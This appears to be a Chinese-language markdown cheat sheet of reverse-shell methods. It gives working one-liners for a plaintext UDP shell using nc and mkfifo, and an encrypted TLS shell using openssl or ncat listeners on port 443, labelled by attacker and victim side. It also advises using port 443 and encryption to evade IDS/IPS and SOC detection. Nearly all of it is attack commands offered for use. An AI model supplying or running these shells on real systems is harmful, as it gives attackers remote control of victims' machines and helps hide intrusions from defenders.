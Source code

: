 ### 反弹shell的各种方法

适用于不同系统(windows/linux) 不同语言环境(python/node/Java/Golang...)

更多参考 [PayloadsAllTheThings/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

⚠️注意:任何"明文通信"都可能被防御系统(IDS/IPS/SOC...)从通信流量中发现异常(命令字符串)!

#### 反弹shell - UDP协议 - 明文通信

```shell
# 主控端(MacOS IP:10.2.2.2) 监听端口
nc -l 53 -vu

# 被控端(centos) 主动连接主控端
mkfifo /tmp/fifo;nc -u 10.2.2.2 53 < /tmp/fifo |{ echo "Hi";/bin/bash;} > /tmp/fifo 2>&1 ;rm /tmp/fifo
```

#### 反弹shell - TCP协议 - 加密通信

反弹shell,可使用**OpenSSL**实现加密通信,能够避免"通信数据"被轻易检测.

因为SSL/TLS加密通信流量常见于443端口,所以建议使用443端口进行通信(避免"在非标准端口使用TLS协议通信" 导致告警).


```shell
# hacker
# 主控端 在443端口开启监听

# 2个方法 任选其一:

# 方法1
hacker@kali$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
hacker@kali$ openssl s_server -quiet -key key.pem -cert cert.pem -port 443

# 方法2
hacker@kali$ ncat --ssl -vv -l -p 443

Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 1CDB C287 FA7E 0EB0 CBC9 3F8C 42C9 CA52 48DE 9484
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```


```shell
# victim
# 被控端 主动外连 主控端的端口
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:443 > /tmp/s; rm /tmp/s
```

